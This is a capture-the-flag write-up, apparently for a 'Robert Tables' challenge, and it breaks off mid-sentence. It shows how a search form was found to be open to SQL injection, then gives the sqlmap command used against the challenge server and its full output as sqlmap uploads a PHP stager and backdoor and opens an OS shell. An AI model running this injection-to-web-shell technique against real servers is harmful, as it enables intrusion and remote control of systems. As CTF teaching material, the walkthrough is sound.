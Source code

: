 Robert Tables (500)
======

A good sales guy always keeps track of his customers.

http://104.131.43.243:8883/

Solution
------

*Writeup by Michael Zhang (failedxyz)*

Alright, we're presented with a search form. Let's see if it's susceptible to SQL injection by entering `'` in the box. As we expected, the result is `null` (since the no result message actually reads `no result`, we know that this caused an error). So let's use SQLmap to further investigate.

To use SQLmap on this URL, the command I ran was:

```bash
./sqlmap.py -u "http://104.131.43.243:8883/index.php" --method POST --data="search=?"
```

SQLmap confirms that this DB is MySQL, and saves the results of the probing to a file. Now we can dig around the database and look for information. Unfortunately, the database seems rather empty, and none of the tables contains any useful information. Let's take a different approach instead.

SQLmap has a feature that allows you to execute OS commands by uploading an executable PHP file. This requires a directory that has write-permissions on. Typically this directory would be the document root of the server, which in most installations is `/var/www/somesite.com`, or something like that. We can find this easily by navigating to any page on the site that will return 404, like: http://104.131.43.243:8883/404. We can see that at the bottom of the page, it tells us what directory the files are served from, which is `/var/www/ecustomers/` (note: servers usually don't do this; I think they only tell you what version of the server software it's running and sometimes what distribution of Linux it's running).

Anyway, now we feed this information to SQLmap and get our OS shell!

```bash
[19:25:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.12
[19:25:12] [INFO] going to use a web backdoor for command prompt
[19:25:12] [INFO] fingerprinting the back-end DBMS operating system
[19:25:12] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[19:25:13] [WARNING] unable to retrieve automatically the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /usr/local/apache2/htdocs, /var/www/nginx-default') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: /var/www/ecustomers
[19:25:18] [WARNING] unable to automatically parse any web server path
[19:25:18] [INFO] trying to upload the file stager on '/var/www/ecustomers/' via LIMIT 'LINES TERMINATED BY' method
[19:25:18] [WARNING] unable to upload the file stager on '/var/www/ecustomers/'
[19:25:18] [INFO] trying to upload the file stager on '/var/www/ecustomers/' via UNION method
[19:25:18] [WARNING] expect junk characters inside the file as a leftover from UNION query
[19:25:18] [INFO] the local file '/tmp/sqlmapKsXckS698/tmpaaDxwI' and the remote file '/var/www/ecustomers/tmpuryls.php' have the same size (711 B)
[19:25:18] [INFO] the file stager has been successfully uploaded on '/var/www/ecustomers/' - http://104.131.43.243:8883/tmpuryls.php
[19:25:18] [INFO] the backdoor has been successfully uploaded on '/var/www/ecustomers/' - http://104.131.43.243:8883/tmpbhhwq.php
[19:25:18] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```

Perfect. Now 
